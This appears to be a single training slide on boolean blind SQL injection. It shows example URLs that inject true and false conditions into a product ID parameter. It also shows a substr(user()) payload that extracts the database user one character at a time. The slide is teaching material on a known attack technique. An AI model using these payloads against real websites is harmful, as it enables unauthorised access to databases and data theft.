

Blind SQLi
Boolean blind
Find the true/false condition
Useful when there is some visual feedback.
site.com/products?id=1+and+1=1 (TRUE)
site.com/products?id=1+and+1=2 (FALSE)

Use these conditions to extract information from the database.
site.com/products?id=1'+and+substr(user(),1,1)+=+'a